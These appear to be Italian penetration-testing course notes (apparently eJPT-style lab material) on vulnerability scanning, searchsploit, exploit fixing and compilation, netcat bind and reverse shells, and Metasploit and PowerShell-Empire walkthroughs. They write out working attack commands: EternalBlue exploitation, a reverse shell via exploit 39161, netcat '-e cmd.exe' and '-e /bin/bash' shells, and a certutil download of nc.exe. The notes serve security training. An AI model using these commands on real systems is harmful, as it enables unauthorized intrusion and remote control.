

# Host & Network Penetration Testing: Exploitation

## Introduction To Exploitation

<figure><figcaption></figcaption></figure>

## Vulnerability Scanning

### Banner Grabbing

Utile per enumerare le versioni, al fine di cercare exploit per tali versioni.

#### Banner grabbing con Nmap

```
// Script Nmap per banner grabbing
ls -al /usr/share/nmap/scripts/ | grep banner
nmap -sV --script=banner <TARGET_IP>
```

#### Banner grabbing con Netcat

```
nc <TARGET_IP> <TARGET_PORT> //es. porta 22 per SSH
```

#### Banner grabbing tramite autenticazione <a href="#banner-grabbing-tramite-autenticazione" id="banner-grabbing-tramite-autenticazione"></a>

Si può provare ad autenticarsi per vedere il contenuto del welcome message/banner, in alcuni casi rivela informazioni sulla versione del servizio.

```
ssh root@192.8.94.3 //Ad esempio per SSH
```

### Vulnerability Scanning With Nmap Scripts

#### Identificare servizi e OS

```
nmap -sV -O 192.152.25.3
ls -al /usr/share/nmap/scripts/ | grep http  //perché abbiamo trovato una porta 80 con Apache
nmap -sV --script=http-enum -p 80 192.152.25.3
```

#### Script che fanno detect delle vulnerabilità (es. Shellshock CGI scripts)

```
ls -al /usr/share/nmap/scripts/ | grep vuln
//Oppure ad esempio vediamo se il target webserver ha shellshock
ls -al /usr/share/nmap/scripts/ | grep shellshock
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.152.25.3
```

### Vulnerability Scanning With Metasploit

```
sudo nmap -sS -sV 10.10.10.7
searchsploit EternalBlue
searchsploit ms17-010
```

#### Verificare una vulnerabilità con modulo MSF

```
msfconsole
search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS 10.10.10.7
run
```

#### Exploitiamo la vulnerabilità con MSF

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.7
exploit
```

## Exploits

### Searching For Publicly Available Exploits

<figure><figcaption></figcaption></figure>

#### Exploit DB

<figure><figcaption></figcaption></figure>

è possibile filtrare per Type, Platform, Port (es. 21 FTP) e Tag (es. Metasploit Framework).

Oppure si può fare una ricerca ad esempio della versione di un servizio identificata, ad es. vsftpd 2.3.4

è presente una spunta Verified per filtrare solo gli exploit che sono stati verificati, poi c'è una colonna Download e una A che sta per Vulnerable Application che permette di scaricare la versione affetta dalla vulnerabilità del servizio per poterla testare.

è poi possibile vedere il dettagli di un exploit e scaricarlo (l'exploit name del file scaricato corrisponde all'ID di Exploit Database (EDB-ID).

Se un exploit è Meterpreter è possibile usarlo direttamente in MSF, senza bisogno di scaricare il codice ruby e installarlo o eseguirlo.

#### Google Hacking Database <a href="#google-hacking-database" id="google-hacking-database"></a>

Dalla barra di sinistra è possibile visitare la pagina Google Hacking Database che consiste in una pagina con tutti i tag di ricerca Google che consentono di cercare siti e file esposti in internet.

<figure><figcaption></figcaption></figure>

### Rapid 7

è della stessa azienda che sviluppa Metasploit Framework. Contiene una collezione di exploit che sono stati portati in moduli MSF.

<figure><figcaption></figcaption></figure>

Ti dà il dettaglio del modulo se clicchi su uno, con i comandi anche da usare.

#### Ricerca Google

Si può cercare anche tramite Google search:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### GitHub

Si può anche cercare su GitHub in modo generico, ma a meno che non ci si legga il codice non siamo sicuri del comportamento.

<figure><figcaption></figcaption></figure>

#### Packet Storm

Non è un exploit database ma è un sito di sicurezza informatica che pubblica le ultime vulnerabilità scoperte. è utile però la sezione Tools che ha veri tools riguardanti le vulnerabilità, e la sezione Whitepapers che spiega come sfruttare le vulnerabilità.

### Searching For Exploits With SearchSploit

```
sudo apt-get update && sudo apt-get install exploitdb -y
ls -al /usr/share/exploitdb #dove sono contenuti i file con exploits e shellcodes
searchsploit
searchsploit -u ##Fa l'update del exploit DB salvato
```

è possibile cercare nelle sottocartelle filtrando per Type, Platform, ecc... come era possibile dalla GUI del sito di Exploit Database.

Gli exploit sono tutti listati con ExploitDB-ID come nome file.

#### Come usare searchsploit

```
searchsploit vsftpd 2.3.4
# copiamo un exploit che abbiamo ottenuto come risultato dalla ricerca sopra nella cartella locale
pwd
searchsploit -m 49757
ls -al #ed ora ho l'exploit copiato nella cartella locale
vim 49757 #per capire come funziona l'exploit e poi usarlo
```

#### Searchsploit search term

```
searchsploit -c OpenSSH #-c per Case Sensitive
searchsploit -t vsftpd #-t dice che la parola specificata deve essere presente nel titolo
searchsploit -t Buffer Overflow ##cerco un tipo di vulnerabilità nel titolo
searchsploit ##mostra l'help
searchsploit -e "Windows XP"  ##cerca le parole esatte -e sta per exact
searchsploit -e "Windows XP" | grep -e "Microsoft"  #per filtrare i risultati della ricerca per la parola Microsoft
searchsploit -e "OpenSSH 7.2p2"
```

#### Search filter

```
searchsploit remote windows smb  ##Cercare tutti i remote exploits per Windows con target il servizio smb
searchsploit remote windows buffer ##per cercare buffer overflow per Windows eseguibili da remoto
searchsploit remote linux ssh
searchsploit remote webapps wordpress  ##remote wordpress exploits per un webserver
searchsploit remote webapps drupal
searchsploit local windows ##cerchiamo gli exploit in locale per sistemi windows
searchsploit local windows | grep "Microsoft" ##escludiamo tutti gli exploit che riguardano programmi vari per Windows, e ci concentriamo su quelli per Microsoft Windows.
```

#### Ottenere i link agli exploit online (per approfondire funzionamento)

```
searchsploit remote windows smb -w | grep -e "EternalBlue" #-w per avere il link di exploit-db online invece del path in locale
```

#### Copiare i file degli exploit di searchsploit

```
sudo cp /usr/share/exploitdb/exploits/windows/remote/42031.py .
searchsploit -m 42031 ##come alternativa per copiare rispetto al comando sopra
```

### Fixing Exploits

Eseguire exploit manualmente senza affidarci a Metasploit Framework.

#### Identificare un servizio running sul target

```
nmap -sV 10.4.23.75
```

#### Trovare un exploit per il servizio

```
searchsploit HTTP File Server 2.3
```

#### Modificare l'exploit per eseguirlo

```
cd Desktop/
searchsploit -m 39161  #-m per copiare l'exploit nella cartella attuale
vim 39161.py
python 39161.py 10.4.23.75 80 ##e non succede niente, perché non abbiamo letto e compreso come funziona l'exploit
vim 39161.py ##dobbiamo modificare IP e porta locali con quelli corretti
##seguiamo le istruzioni avviando il netcat executable come richiesto dallo script
cp /usr/share/windows-resources/binaries/nc.exe .
ls -al
##in terminale 1 eseguiamo l'exploit, in terminale 2 hostiamo un file server, in terminale 3 il netcat listener
    ##terminale 2:
    python -m SimpleHTTPServer 80
    ##terminale 3:
    nc -nvlp 1234
##terminale 1
python 39161.py 10.4.23.75 80
python 39161.py 10.4.23.75 80 ##lo avviamo due volte perché nei commenti dell'exploit c'era scritto che poteva capitare che non funzionasse al primo lancio, e ci è accaduto
##otteniamo che sul terminale 2 vediamo che vengono fatte le richieste di get di /nc.exe, e poi sul terminale 3 viene aperta una reverse shell ed è possibile eseguire comandi
    ##terminale 3
    whoami
    systeminfo
```

### Cross-Compiling Exploits

<figure><figcaption></figcaption></figure>

#### Windows compilation on Linux

Avremo bisogno di due tool: MinGW-w64 e gcc

```
sudo apt-get install mingw-w64
sudo apt-get install gcc
```


Consiglia di compilare l'exploit in versione 32bit così va anche sui 64bit


```
searchsploit VideoLAN VLC SMB
searchsploit -m 9303
ls
vim 9303.py
i686-w64-mingw32-gcc 9303.c -o exploit ##per compilare a 64 bit
ls
i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32 ##per compilare a 32bit
ls
```

#### Linux compilation on Linux

Nel caso di esempio l'exploit ci fornisce nei commenti le istruzioni corrette per compilarlo.

```
searchsploit Dirty Cow ##ci concentriamo sul 40839
searchsploit -m 40839
gcc -pthread dirty.c -o dirty -lcrypt ##facciamo una compilazione normale secondo l'indicazione dell'exploit stesso.
ls -al
```

#### Fonte utile di exploit binaries (Offensive Security bin sploits Github repository)

Contiene delle versioni precompilate dei binari degli exploit per Windows e Linux.

<figure><figcaption></figcaption></figure>

***

## Bind & Reverse Shell

### Netcat Fundamentals

<figure><figcaption></figcaption></figure>

```
nc --help
man nc
nc -v ##verbose output
nc -u ##per specificare una UDP port
nc -l ##listener
nc -n ##no dns resolution degli ip via DNS
nc -e ##consente di eseguire un comando
```

#### Connettersi alle porte con netcat per banner grabbing

```
nc 10.4.20.244 80 ##test per connettersi ad una porta 80, ma non otteniamo nessun banner
nc -n -v 10.4.20.244 80 ##ci mostra il connection status
nc -nv 10.4.20.244 21 ##check ftp
nc -nvu 10.4.20.244 139 ##check UDP port 139
nc -nvu 10.4.20.244 445
nc -nvu 10.4.20.244 161
```

#### Set up a listener to a TCP/UDP port

Come prima cosa dobbiamo trasferire netcat su Windows perché non è preinstallato

Cerchiamo il windows binary su linux di netcat e lo trasferiamo tramite web server python.

```
ls -al /usr/share/windows-binaries/
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80
```

Scarichiamo il file da Windows o via browser o via CMD:

```
cd Desktop
certutil -urlcache -f http://10.10.3.3/nc.exe nc.exe
nc.exe -help #è scaricato e funziona correttamente
```

#### Come impostare il listener

```
##Su Linux
nc -nvlp 1234  ##-nvlp per listener
    ##Su Windows
    nc.exe -nv 10.10.3.3 1234  ##-nv per connettersi al listener
##Su Linux vediamo che ha ricevuto una connessione

##Listener via UDP
nc -nvlup 1234 ##per listener su porta UDP 1234
nc -nvu 10.10.3.3 1234 ##per connettersi al listener su porta UDP
```

Una volta che è stato connesso una sistema con un altro, ogni carattere scritto viene replicato sull'altra macchina.

#### Trasferire file via Netcat

Il sistema che deve ricevere i file deve avere il listener, il sistema che vuole inviare il file deve connettersi al listener.

```
##sistema che riceve
nc.exe -nlvp 1234 > test.txt ##redirezioniamo l'output su un file

##sistema che invia
vim test.txt
nc -nv 10.4.20.244 1234 < test.txt ##diamo in input il file alla connessione verso il listener
```


netcat è utile anche per trasferire executable


### Bind Shells

<figure><figcaption></figcaption></figure>

Problema: Spesso il traffico in entrata verso una porta viene bloccato dal firewall (es. Windows Firewall).

#### Trasferiamo netcat binary a target Windows

```
##Su Linux attaccante
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80
##Su Windows target scarichiamo il file via browser
```

#### Setup bind shell

Set up listener su Windows target

```
nc.exe -nvlp 1234 -e cmd.exe ##Perché dobbiamo eseguire il programma cmd che vogliamo trasmettere all'attaccante
```

Connettarsi dall'attaccante kali al target

```
nc -nv 10.4.21.221 1234
```

Connettendosi da Windows attaccante a Linux target

```
##Su Linux
nc -nvlp 1234 -c /bin/bash
##Su Windows
mc.exe -nv 10.10.3.2 1234
```

### Reverse Shell

<figure><figcaption></figcaption></figure>

Vantaggi: Outgoing traffic non è bloccato da firewall solitamente, e non è necessario impostare un listener sul target.

#### Impostiamo il listener sull'attaccante

```
nc -nvlp 1234
```

#### Connettiamo il target all'attaccante

Dobbiamo specificare il programma che vogliamo trasmettere, su Windows è cmd.exe oppure Powershell.

```
nc.exe -nv 10.10.0.2 1234 -e cmd.exe //Per Windows
nc -nv 10.10.0.2 1234 -e /bin/bash //Per Linux
```

#### Se torniamo all'attaccante possiamo ora eseguire comandi sul target Windows

```
whoami
```

### Reverse Shell Cheatsheet


La cosa interessante è che non è necessario che la connessione dal target all'attaccante venga fatta con netcat, può essere fatta anche con PowerShell code per Windows o bash code per Linux.


#### PayloadAllTheThings

Su GitHub, file: **Reverse Shell Cheatsheet**.

Per utilizzarli bisogna modificare IP e porta.

#### Reverse Shell Generator (revshells.com)&#xD;

Si può generare la stringa del comando da usare per il listener.

E poi sotto è possibile selezionare vari tipi di Reverse code, Bind code o MSFVenom.

Sotto Bind: Python e PHP Bind shell serve se su Windows non è installato netcat.

Si può filtrare anche per OS, ad es. Windows, e tendenzialmente abbiamo solo opzioni Powershell o bash.

Si può anche usare un codice C che può poi essere compilato ed eseguito.

Tutte queste stringhe generate possono essere utilizzate per connettersi ad un listner netcat che è in ascolto.

***

## Exploitation Frameworks

### The Metasploit Framework (MSF)&#xD;

### Lab – Utilizzo di Metasploit Framework (MSF) su ProcessMaker

#### 1️⃣ Identificazione del servizio

* Durante la fase di **enumeration** vengono individuati vari servizi
* Tra questi è presente un **web server**
* Visitando la pagina web si nota che gira **ProcessMaker by Colosa Inc**
* La **versione non è visibile direttamente** dalla pagina

#### 2️⃣ Enumerazione della versione

* Si tenta di trovare la versione:
  * Ispezionando il **codice sorgente della pagina**
  * ❌ Nessuna informazione utile trovata
* Si procede cercando **credenziali di default** online per ProcessMaker
*   Login testato con:

    ```
    admin : admin
    ```
* Login riuscito ✅
*   Una volta autenticati, viene individuata la **versione**:

    ```
    ProcessMaker 2.5.0
    ```
* Il database utilizzato coincide con quello rilevato durante la **nmap scan**

#### 3️⃣ Ricerca vulnerabilità

* Con la versione nota (2.5.0), si cercano vulnerabilità pubbliche
* Vengono trovati **3 exploit**
* L’ultimo exploit permette:
  * **PHP Code Execution**
  * Disponibile su **Metasploit Framework**
* L’exploit è valido per **ProcessMaker 2.x**
  * La versione 2.5.0 rientra nel range vulnerabile ✅

#### 4️⃣ Analisi dell’exploit (opzionale)

* L’exploit viene copiato localmente per analizzarlo con `vim`
* Nella **Description** si conferma:
  * Tipo di vulnerabilità
  * Versioni affette (2.x)
* Dopo la verifica, l’exploit locale viene eliminato
  * Verrà usato direttamente da Metasploit

#### 5️⃣ Sfruttamento con Metasploit

* Avvio di:
  * `msfconsole`
  * Database PostgreSQL di Metasploit
*   Creazione di un workspace dedicato:

    ```
    workspace -a ProcessMaker
    ```
*   Ricerca dell’exploit:

    ```
    search processmaker
    ```
* Selezione del **primo exploit** (PHP Code Execution)
* Configurazione dei parametri richiesti (RHOSTS, ecc.)
*   Esecuzione dell’exploit:

    ```
    exploit
    ```

#### 6️⃣ Post-exploitation

* Exploit riuscito ✅
* Ottenuto accesso al sistema
* Possibilità di:
  * Esplorare il filesystem
  * Cercare la **flag**

### PowerShell-Empire

* Framework focalizzato su **target Windows**
* Usato per:
  * **Exploitation**
  * **Post-exploitation**
  * **Accessi persistenti (long-term engagement)**
* Molto usato in **Red Teaming**
* Offre moduli post-exploitation non presenti in Metasploit

#### 1️⃣ Setup e avvio

* Installare:
  * **PowerShell-Empire**
  * **Starkiller (GUI)**
* Avviare il **server Empire**
  * Starkiller comunica tramite **RESTful API**
* Plugin importante:
  * **csharpserver** → compila gli stage in C#
* Lasciare il server in esecuzione
* Avviare il **client Empire** da un altro terminale (opzionale)

#### 2️⃣ Concetti fondamentali

* **Agents** → macchine compromesse (target)
* **Listeners** → ricevono le connessioni reverse
* **Stagers** → payload da deliverare al target
* **Modules** → post-exploitation (soprattutto Windows)
* **Credentials** → credenziali recuperate localmente
* **Reporting** → note per il report finale

#### 3️⃣ Starkiller – Panoramica sezioni

* **Modules**
  * Moduli di post-exploitation
  * Filtrabili via search
  * Alcuni scritti in Python
    * `osx` → macOS
    * `multi` → Linux / altri OS
  * Colonna **Techniques** → MITRE ATT\&CK IDs
* **Listeners** → listener attivi
* **Stagers** → payload eseguibili
* **Agents** → target compromessi
* **Credentials** → credenziali recuperate
* **Reporting** → documentazione del pentest

#### 4️⃣ Creazione del Listener

* Listener raccomandati:
  * `http`
  * `http_hop`
* **Host**:
  * IP della macchina Kali
* Submit → listener avviato ✅

#### 5️⃣ Creazione dello Stager

* Funzione:
  * Connettere il target al listener (reverse shell)
*   Stager usato nel lab:

    ```
    windows_csharp_exe
    ```
* Possibile offuscare PowerShell (non approfondito)
* Submit → stager creato
* Da **Actions (⋮)** → scaricare lo stager

#### 6️⃣ Delivery ed esecuzione dello stager

* Trasferimento al target Windows:
  * Es. tramite **Python HTTP server**
* Dal target:
  * Scaricare lo stager
  * Eseguirlo (click)
* Su Kali → Starkiller → **Agents**
  * Compare il target Windows compromesso ✅

#### 7️⃣ Gestione dell’Agent

* Clic su nome agente o **Actions > View**
  * Possibile **rinominare** l’agente
* **Interact**
  * Eseguire comandi shell
  * Output non immediato (non interattivo)
* **File Browser**
  * Navigazione filesystem
  * Upload / download file
* Da Interact è possibile:
  * Eseguire **moduli post-exploitation**

#### 8️⃣ Uso del PowerShell-Empire Client (CLI)

* Utile se Starkiller ha problemi
*   Interazione con l’agente:

    ```
    interact Windows7
    help
    ipconfig
    view
    history
    exit
    ```
* `history`:
  * Mostra anche comandi eseguiti via Starkiller
    * es. navigazione file browser

#### 9️⃣ Limitazioni e workaround

* Shell Empire:
  * **Non completamente interattiva**
  * Risposte lente
* Possibile soluzione:
  * Configurare un **Meterpreter listener** tramite Empire/Starkiller
* Se un comando non risponde:
  * Eseguirlo da Starkiller
  * Tornare sul client Empire
  * `interact <agent>` per verificare output

#### 🧠 Key Takeaways (eJPT / Red Team)

* PowerShell-Empire ≠ Metasploit
  * Più orientato a **post-exploitation e persistenza**
* Starkiller semplifica enormemente la gestione degli agent
* Listener + Stager = cuore del framework
* Ideale per:
  * Engagement lunghi
  * Movimenti laterali
  * Raccolta credenziali
* Moduli avanzati allineati al **MITRE ATT\&CK Framework**
